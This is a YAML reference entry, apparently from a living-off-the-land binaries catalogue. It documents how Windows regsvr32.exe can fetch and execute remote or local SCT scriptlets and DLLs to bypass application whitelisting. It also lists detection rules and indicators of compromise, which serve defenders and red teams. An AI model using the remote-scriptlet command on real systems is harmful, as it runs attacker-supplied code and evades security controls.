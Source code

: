 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: regsvr32 /s /n /u /i:{REMOTEURL:.sct} scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:{PATH:.sct} scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
  - Command: regsvr32 /s /n /u /i:{REMOTEURL:.sct} scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:{PATH:.sct} scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
  - Command: regsvr32.exe /s {PATH:.dll}
    Description: Execute code in a DLL. The code must be inside the exported function `DllRegisterServer`.
    Usecase: Execute DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: regsvr32.exe /u /s {PATH:.dll}
    Description: Execute code in a DLL. The code must be inside the exported function `DllUnRegisterServer`.
    Usecase: Execute DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_parent.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_child_process.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_exec_path_1.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_network_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/dns_query/dns_query_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_regsvr32_flags_anomaly.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/detect_regsvr32_application_control_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/execution_register_server_program_connecting_to_the_internet.toml
  - IOC: regsvr32.exe retrieving files from Internet
  - IOC: regsvr32.exe executing scriptlet (sct) files
  - IOC: DotNet CLR libraries loaded into regsvr32.exe
  - IOC: DotNet CLR Usage Log - regsvr32.exe.log
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

